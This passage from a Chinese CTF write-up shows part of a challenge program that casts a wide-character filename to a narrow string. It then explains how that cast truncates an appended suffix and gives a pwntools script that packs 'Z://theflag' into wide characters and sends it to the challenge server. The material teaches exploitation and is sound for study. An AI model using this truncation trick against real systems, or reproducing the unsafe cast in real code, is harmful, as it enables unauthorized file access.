 ```cpp
        charsRead--;
    }

    // Convert to WIDE chars
    wchar_t buf[256] = { 0 };
    MultiByteToWideChar(CP_UTF8, 0, inputBuffer, -1, buf, sizeof(buf) / sizeof(wchar_t));

    std::wstring filename = buf;

    // Haha!
    filename += L"you_cant_get_the_flag";

    std::wifstream file;
    file.open((char*)filename.c_str());

    if (file.is_open() == false)
    {
        std::wcout << L"Failed to open the file!" << std::endl;
        return 3;
    }

    std::wstring flag;
    std::getline(file, flag);

    std::wcout << L"The flag is: " << flag << L". Congratulations!" << std::endl;

    return 0;
}
```

不是很看得懂一些函数是在干什么，但通过拷问GPT，以及查找各种文档，发现其实所谓的“宽字符”就是把相邻两个普通字符的ascii码分为低位和高位拼在一起，作为一整个字符处理。而反过来把宽字符转为普通字符的时候则是做相反操作，并且C语言的`char*`是检测到`\x0`就直接截断了。

那么小A在后面拼的这一串`you_cant_get_the_flag`起到了什么作用呢？我反正没看出来。

于是写出脚本：

```python
from pwn import remote

ascii_bytes = [
    0x5A,  # 'Z'
    0x3A,  # ':'
    0x2f,  # '/'
    0x2f,  # '/'
    0x74,  # 't'
    0x68,  # 'h'
    0x65,  # 'e'
    0x66,  # 'f'
    0x6C,  # 'l'
    0x61,  # 'a'
    0x67   # 'g'
]

wchar_values = []
for i in range(0, len(ascii_bytes), 2):
    low_byte = ascii_bytes[i]
    high_byte = ascii_bytes[i+1] if i+1 < len(ascii_bytes) else 0x00
    wchar = (high_byte << 8) + low_byte
    wchar_values.append(wchar)

payload = ''.join(chr(wchar) for wchar in wchar_values).encode()
r = remote('202.38.93.141', 14202)
r.sendlineafter(b'token: \n', b'TOKEN')
r.sendlineafter(b"I'll append 'you_cant_get_the_flag' to it:\r\n", payload)
```